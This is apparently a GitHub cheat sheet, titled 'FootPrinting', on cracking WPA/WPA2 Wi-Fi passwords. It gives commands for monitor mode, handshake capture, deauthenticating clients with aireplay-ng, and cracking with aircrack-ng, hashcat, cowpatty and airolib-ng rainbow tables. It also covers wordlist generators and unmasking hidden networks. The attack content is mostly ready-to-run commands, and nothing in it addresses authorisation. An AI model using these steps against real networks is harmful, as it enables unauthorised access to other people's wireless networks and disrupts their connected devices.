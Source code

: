 # FootPrinting

## Tables des matière
 - [Enabling Monitor mode on your network card](#Enabling-Monitor-mode-on-your-network-card)
 - [Capturing handshake with airodump](#Capturing-handshake-with-airodump)
 - [Cracking with Aircrack (CPU power)](#Cracking-with-Aircrack-(CPU-power))
 - [Cracking with Hashcat (GPU power)](#Cracking-with-Hashcat-(GPU-power))
 - [Cracking with cowpatty](#Cracking-with-cowpatty)
 - [Creating wordlists](#Creating-wordlists)
 - [Rainbow table](#Rainbow-table)
 - [Fluxion](#Fluxion)
 - [Wifite](#Wifite)
 - [Finding and cracking hidden network](#Finding-and-cracking-hidden-network)
 
 

### Enabling Monitor mode on your network card
	
Check your mode tiping `iwconfig`. Put your network card down. Type `airmon-ng check <network_card_name>`. Type `airmon-ng check kill <network_card_name>`. 

Type `iwconfig <network_card_name> mode monitor`. Put your network card up.
	 
### Capturing handshake with airodump

List all of the netwworks around you : `airodump-ng <network_card_name>`

List all of the devices connected to a network : `airodump-ng -c <network_channel> --bssid <network_bssid> -w <name_file_you_want_to_create> <network_card_name>`

In the same time you perform this command, type in another terminal : `aireplay-ng -0 0 -a <bssid> <network_card_name>`

Press `^C` and all the devices will be reconnected to the access point and you see in the terminal which you run the airodump command that the WPA handshake have been found.

4 files have been created and you can open the .cap in wireshark. You can filtered by `eapol` in order to see the packets link to the reconnection.
	
### Cracking with Aircrack (CPU power) 

You can brute-forcing th password by tiping : `aircrack-ng -w <wordlist> <file.cap>`

### Cracking with Hashcat (GPU power)

In order to crack with Hashcat you must convert the .cap to a hashcat capture file --> `https://hashcat.net/cap2hccapx/`

Cracking command : `hashcat -a <perform_level(2?)> -m <hashtype(2500?for_the_wpa2)> <file.hccapx> <wordlist>`

### Cracking with cowpatty

`cowpatty -f <wordlist> -r <file.pcap> -s <name_access_point>`

### Creating wordlists

**crunch** - very useful, generate wordlist with (characters/words) in relation to the entries you made

**cupp** (github) - generate worlds with (characters/words) in relation to the answers of their questions

### Rainbow table 

These are useful for brute-force a hash code.

In order to generate a rainbow table --> `rtgen` --> see help for your use.

A .rt file is created. Don't forget to sort the rainbow table : `rsort`

You can retrieve a word by its hash hash -->` rcrack . -h <hash>` 

--> For WPA-WPA2 carcking :
	
  -create file with the name of the essid of your access point (SFR_0F30?)

  -airolib-ng <rainbow_table_name> --import essid <essid_name_file>
  
  -airolib-ng <rainbow_table_name> --import passwd <wordlist>
		
  -airolib-ng <rainbow_table_name> --clean all
		
  -airolib-ng <rainbow_table_name> --batch

  -airolib-ng <rainbow_table_name> --verify all
		
  -aircrack-ng -r <rainbow_table_name> <file.cap>
	
### Fluxion

Tool that automate all the steps.

### Wifite

Tool that automate all the steps and more <-- very very useful

Finding and cracking hidden network :
	
List all of the netwworks around you : `airodump-ng <network_card_name>`

If you see an access point without name but with `<length: 0>`, it is a hidden network 
	
List all of the devices connected to a network : `airodump-ng  --bssid <network_bssid> --channel <channel_network> <network_card_name>`
	
In the same time you perform this command, type in another terminal : `aireplay-ng --deauth <number_of_deauthtificated_packets> -a <bssid> -c <station(mac_adress_of_the_client)> <network_card_name>`
	
The essid appears in the terminal you run the airodump command and you can connect to the hidden network
